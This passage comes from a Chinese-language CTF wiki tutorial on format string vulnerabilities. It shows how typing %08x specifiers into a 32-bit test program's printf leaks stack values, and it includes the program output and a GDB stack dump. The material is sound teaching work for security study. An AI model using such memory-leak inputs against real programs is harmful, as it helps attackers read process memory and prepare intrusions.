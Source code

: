 可以看出，编译器指出了我们的程序中没有给出格式化字符串的参数的问题。下面，我们来看一下，如何获取对应的栈内存。

根据C语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64位会根据其传参的规则进行获取)。这里我们主要介绍32位。

#### 获取栈变量数值

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb
```

可以看到，我们确实得到了一些内容。为了更加细致的观察，我们利用GDB来调试一下，以便于验证我们的想法，这里删除了一些不必要的信息，我们只关注代码段以及栈。

首先，启动程序，将断点下载printf函数处

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
```

之后，运行程序

```shell
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%08x.%08x.%08x
```

此时，程序等待我们的输入，这时我们输入%08x.%08x.%08x，然后敲击回车，是程序继续运行，可以看出程序首先断在了第一次调用printf函数的位置

```shell
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.
────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x1c: 0x000000c2
```
